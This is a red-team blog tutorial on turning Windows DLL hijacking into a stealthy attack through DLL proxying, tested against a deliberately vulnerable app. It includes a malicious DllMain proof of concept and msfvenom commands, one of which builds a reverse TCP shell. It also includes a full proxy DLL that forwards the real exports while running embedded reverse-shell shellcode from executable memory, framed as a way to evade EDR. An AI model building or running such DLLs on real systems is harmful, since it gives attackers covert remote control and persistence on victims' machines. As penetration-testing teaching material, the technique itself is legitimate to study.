








# Weaponizing DLL Hijacking via DLL Proxying

## Introduction

Dynamic Link Library (DLL) is a collection of code that can be shared across multiple processes in Windows. A process imports a DLL when it needs to use functions or resources externally provided by it. For example, if a message box is displayed, the ```User32.dll```
would be imported to the running process.

```DLL Hijacking``` is an attack, in which the intruder overwrites a specific and predefined DLL on the remote file system. When a process loads the overwritten library, a malicious code will be executed instead of the real one.

While ```DLL Hijacking``` is usually exploited for persistence, privilege escalation and lateral movement, it is a great technique for initial access, since it de-chains the download from the execution phase, which is highly suspicious behavior for EDRs (Endpoint Detection and Response). 

!!!
A nice webinar on EDR evasion with DLL Hijacking can be found here: https://www.youtube.com/watch?v=CKfjLnEMfvI
!!!

## Theory

The process of loading DLLs is automatically handled by the Windows OS. To demonstrate it let's take the following C code:

```C
#include <windows.h>

int main() {
    MessageBoxA(NULL, "Hello, MessageBox!", "Message", MB_OK);
    return 0;
}
```

When executed, a message box will appear. If we inspect the program with [Process Hacker 2](https://processhacker.sourceforge.io/downloads.php) we can confirm that the ```user32.dll``` module is indeed loaded into the process.



!!!
If you replace one of the loaded DLL with a malicious one, the next time a process loads it, the malicious code inside will get executed. This is DLL Hijacking.
!!!

By default, in Windows OS, when an application loads dynamic link libraries (DLLs), the operating system follows a specific search order to locate these DLLs. The search order is prioritized as:

- The directory from which the application is loaded: The system looks for DLLs in the same directory as the executable file of the application.

- The current working directory: If the DLL is not found in the application's directory, the system searches the current working directory. However, be cautious with relying on the current working directory, as it can change during the execution of the program.

- Windows System directories: If the DLL is not found in the application's directory or the current working directory, the system searches the directories listed in the system's PATH environment variable. This includes standard system directories like C:\Windows\System32.

- Windows directories: If the DLL is not found in the aforementioned locations, the system searches the Windows directory.

- Directories listed in the PATH environment variable: If the DLL is not found in any of the previous locations, the system searches the directories listed in the PATH environment variable.

This search priority is often abused for DLL Hijacking attacks, since a lot of applications will initially request a DLL from a folder where the user has write access rights over.

!!!
When developing an application, it is important to use full paths for the needed modules in order to avoid hijacking vulnerabilities.
!!!

## Classical DLL Hijacking

By "Classical DLL Hijacking" I mean the exploitation of DLL Hijacking vulnerability just for demonstrative purposes (a.k.a not caring about evasion, you just want to prove that the application is vulnerable). 

During this blogpost I am using [DVTA](https://github.com/srini0x00/dvta) for my testing environment.

Finding a DLL Hijacking vulnerability is as simple as scanning different processes for their module imports, and overwriting a module if you have write access to the path on the filesystem where it is missing or loaded. 

This behavior can be easily analyzed with tools like [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon). If you specify the following filters, ProcMon will scan the defined process for all DLL imports.



After the filters are applied it is recommended to restart the application for maximum coverage. Eventually, after watching the process activity you should come up to something like this:



This is a perfect candidate for DLL Hijacking attack, since the DVTA application is trying to load ```profapi.dll``` within my user's folder.

For generating a sample DLL, we can use either custom made one (recommended), or a [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) one. For the sake of the demo, I created the following custom DLL, to spawn "calc.exe" process.

```C
#include "pch.h"
#include <stdlib.h>
#include <windows.h>

void calc();

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
HANDLE t;
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
  t = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)calc, NULL, 0, NULL);
  CloseHandle(t);
  break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
	break;
}
return TRUE;
}

void calc()
{
 system("calc.exe");
}
```

DLL's entry point is called "DLLMain" and it executes code via various conditions on how the DLL is being called. When a process reads a function from the DLL it generally uses "DLL_PROCESS_ATTACH". We will store our custom code there! While this sample POC is designed to just spawn ```calc.exe```, in real scenario you want your payload execution logic here!

The same behavior can be replicated with msfvenom:
```bash
msvenom -f dll -p windows/exec CMD="C:\\Windows\\System32\\calc.exe" -o profapi.dll
```

After the DLL is generated, it is enough to just transfer it over the directory from where the application is trying to load it, and it is done. When the application is restarted and the DLL is re-imported, the payload behind will get executed.



!!!
During the "Classical DLL Hijacking" attack, the targeted application will most likely stop working after the custom DLL is executed! This is because the application requires specific functions from the imported DLL and our custom one is lacking them.
!!!

## DLL Proxying

Since the "Classical DLL Hijacking" is super simple to perform, it is also extremely ineffective in real engagements. In order to weaponize this attack, it is important to understand "why".

Typically, the DLL Hijacking attacks are utilized for:
- Persistence
- Privilege Escalation
- AV / EDR Evasion

No matter in which scenario the DLL Hijacking is needed, it is important to not break the application / environment of the victim. No matter how evasive your payloads are, if the client software is corrupted, it could easily lead to internal escalation.

While each one of these topics are super complex and requires a lot of dedicated attention, we will not dive into them today. In this blog we will focus on how to weaponize the DLL Hijacking attack, so that it does not break the application runtime after the payload is executed. I am going to release more blogs on these topics in future! Stay tuned!

I already have a video on DLL Proxying, so if you prefer watching instead of reading, feel welcomed to my channel: 
[!embed](https://www.youtube.com/watch?v=KhVxglO2mcM)

The application block is generally caused by 2 factors:
- The malicious DLL is missing the functions that are needed from the application.
- The payload is hijacking the thread, which can result in a timeout.

To solve this problem we must perform something called DLL proxying. It looks like this:



In a DLL, an exported function is a function that is made available for other applications or DLLs to use. When a function is exported, it means that it is exposed and can be called by external programs. Exported functions could serve as entry points for other software components to utilize the functionality provided by the DLL.

DLL Proxying is when you embed the exported functions from the original DLL into your malicious one. This way when the DLL is hijacked and loaded, the malicious payload will get executed in parallel with the intended and needed exported functions. 

Additionally, the payload execution should not be handled poorly, if the payload execution thread corrupts the process, even though the exported functions are present, the application could still timeout.

While this approach may sound super complex, there are tools that can export all the needed functions in C/C++ template. One such tool is called [Spartacus](https://github.com/Accenture/Spartacus).

!!!
Spartacus requires ProcMon to be installed.
!!!

To run Spartacus, you can follow the syntax:

```powershell
.\Spartacus-v1.2.0-x64.exe --procmon C:\Users\user\Desktop\Procmon64.exe --pml test.plm --csv ./output.csv --exports . --verbose
```

Spartacus will automatically engage with ProcMon, setup filters and find DLL hijackable binaries. After finding such, it will try to export all the functions it needs from the mentioned DLL.

After executing the command, make sure to restart the targeted binary, and then terminate Spartacus by pressing enter. 
When stopped, it will generate similar output:


From the output, Spartacus founds which DLLs are hijackable and forwardable, exported their functions and generated a C++ template for the DLLs. 

In this example it is clear that the previously exploited ```profapi.dll``` is not a good match, since Spartacus cannot export its functions. However, ```CRYPTSP.dll``` looks like a better option.

The C++ template for ```CRYPTSP.dll``` looks like this in my example:
```C
#pragma once

#pragma comment(linker,"/export:SystemFunction001=C:\\Windows\\System32\\cryptbase.SystemFunction001,@1")
#pragma comment(linker,"/export:SystemFunction002=C:\\Windows\\System32\\cryptbase.SystemFunction002,@2")
#pragma comment(linker,"/export:SystemFunction003=C:\\Windows\\System32\\cryptbase.SystemFunction003,@3")
#pragma comment(linker,"/export:SystemFunction004=C:\\Windows\\System32\\cryptbase.SystemFunction004,@4")
#pragma comment(linker,"/export:SystemFunction005=C:\\Windows\\System32\\cryptbase.SystemFunction005,@5")
#pragma comment(linker,"/export:SystemFunction028=C:\\Windows\\System32\\cryptbase.SystemFunction028,@6")
#pragma comment(linker,"/export:SystemFunction029=C:\\Windows\\System32\\cryptbase.SystemFunction029,@7")
#pragma comment(linker,"/export:SystemFunction034=C:\\Windows\\System32\\cryptbase.SystemFunction034,@8")
#pragma comment(linker,"/export:SystemFunction036=C:\\Windows\\System32\\cryptbase.SystemFunction036,@9")
#pragma comment(linker,"/export:SystemFunction040=C:\\Windows\\System32\\cryptbase.SystemFunction040,@10")
#pragma comment(linker,"/export:SystemFunction041=C:\\Windows\\System32\\cryptbase.SystemFunction041,@11")

#include <windows.h>

VOID Payload() {
    // Run your payload here.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Payload();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Now let's tweek the malicious template from Spartacus!
I created [Offensive CPP](https://github.com/lsecqt/OffensiveCpp) repository, its idea is to host offensive C/C++ independent snippets, which can be used in various scenarios. Let's copy some shellcode execution code. 
During the demo, I am using the [FileMap](https://github.com/lsecqt/OffensiveCpp/blob/main/Shellcode%20Execution/FileMap/directPointerToFileMap.cpp) snippet.

The last step is to generate a shellcode from msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f c
```

After combining the pieces I created the following POC:
```C++
#pragma once

#pragma comment(linker,"/export:SystemFunction001=C:\\Windows\\System32\\cryptbase.SystemFunction001,@1")
#pragma comment(linker,"/export:SystemFunction002=C:\\Windows\\System32\\cryptbase.SystemFunction002,@2")
#pragma comment(linker,"/export:SystemFunction003=C:\\Windows\\System32\\cryptbase.SystemFunction003,@3")
#pragma comment(linker,"/export:SystemFunction004=C:\\Windows\\System32\\cryptbase.SystemFunction004,@4")
#pragma comment(linker,"/export:SystemFunction005=C:\\Windows\\System32\\cryptbase.SystemFunction005,@5")
#pragma comment(linker,"/export:SystemFunction028=C:\\Windows\\System32\\cryptbase.SystemFunction028,@6")
#pragma comment(linker,"/export:SystemFunction029=C:\\Windows\\System32\\cryptbase.SystemFunction029,@7")
#pragma comment(linker,"/export:SystemFunction034=C:\\Windows\\System32\\cryptbase.SystemFunction034,@8")
#pragma comment(linker,"/export:SystemFunction036=C:\\Windows\\System32\\cryptbase.SystemFunction036,@9")
#pragma comment(linker,"/export:SystemFunction040=C:\\Windows\\System32\\cryptbase.SystemFunction040,@10")
#pragma comment(linker,"/export:SystemFunction041=C:\\Windows\\System32\\cryptbase.SystemFunction041,@11")

#include <windows.h>
#include <iostream>

unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x6e\x89"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

VOID Payload() {
 ShowWindow(GetConsoleWindow(), SW_HIDE);

 HANDLE mem_handle = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(buf), NULL);

 void* mem_map = MapViewOfFile(mem_handle, FILE_MAP_ALL_ACCESS | FILE_MAP_EXECUTE, 0x0, 0x0, sizeof(buf));

 std::memcpy(mem_map, buf, sizeof(buf));

 std::cout << ((int(*)())mem_map)() << std::endl;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
 switch (fdwReason)
 {
 case DLL_PROCESS_ATTACH:
  Payload();
  break;
 case DLL_THREAD_ATTACH:
  break;
 case DLL_THREAD_DETACH:
  break;
 case DLL_PROCESS_DETACH:
  break;
 }
 return TRUE;
}
```

After performing DLL Hijacking with the compiled DLL, the binary executes as normal, while the shell callback is present.




## Conclusion
As mentioned before, DLL Hijacking on its own is a valid finding and often during pentests, it can be enough just to prove that the targeted application is vulnerable. However, in more complex cases, you may need to operate more stealthy. 

Since the "Classical DLL Hijacking" is corrupting the workflow of the targeted application, this can be a huge IOC (Indicator Of Compromise). To evade being detected, before implementing any custom evasive payloads, you have to make sure that your techniques do not disrupt anyone's environment. While DLL Proxying may sound more complicated and requires additional programming skills, it is a nice way to weaponize the DLL Hijacking attack.

More on AV / EDR evasion blogs are yet to come!

Thank you for your attention, I really hope this blog was useful, if so, you can support me on:
- [Patreon](https://www.patreon.com/Lsecqt)
- [BuyMeACoffee](https://www.buymeacoffee.com/lsecqt)
- [Youtube](https://www.youtube.com/@Lsecqt) 
- [Twitter](https://twitter.com/lsecqt) 
- [Github](https://github.com/lsecqt)

Also make sure to join the [Red Teaming Army](https://discord.gg/dWCe5ZMvtQ) Discord channel.